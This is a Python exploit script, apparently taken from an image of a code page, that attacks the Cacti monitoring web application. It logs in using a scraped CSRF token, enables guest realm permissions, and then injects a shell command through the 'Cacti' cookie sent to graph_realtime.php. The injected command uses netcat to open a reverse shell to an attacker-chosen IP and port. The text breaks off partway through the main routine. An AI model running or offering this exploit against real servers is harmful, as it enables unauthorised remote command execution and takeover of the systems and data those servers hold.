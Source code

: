     import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 6:
        print("[~] Usage : ./Cacti-exploit.py url username password ip port")
        exit()
     
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
     
    def login(token):
        login_info = {
        "login_username": username,
        "login_password": password,
        "action": "login",
        "__csrf_magic": token
        }
        login_request = request.post(url+"/index.php", login_info)
        login_text = login_request.text
        if "Invalid User Name/Password Please Retype" in login_text:
            return False
        else:
            return True
     
    def enable_guest(token):
        request_info = {
        "id": "3",
        "section25": "on",
        "section7": "on",
        "tab": "realms",
        "save_component_realm_perms": 1,
        "action": "save",
        "__csrf_magic": token
        }
        enable_request = request.post(url+"/user_admin.php?header=false", request_info)
        if enable_request:
            return True
        else:
            return False
     
    def send_exploit():
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)
     
    request = requests.session()
    print("[+]Retrieving login CSRF token")
    page = request.get(url+"/index.php")
    html_content = page.text
    soup = BeautifulSoup(html_content, "html5lib")
    token = soup.findAll('input')[0].get("value")
    if token:
        print("[+]Token Found : %s" % token)
        print("[+]Sending creds ..")
        login_status = login(token)
        if login_status:
            print("[+]Successfully LoggedIn")
            print("[+]Retrieving CSRF token ..")
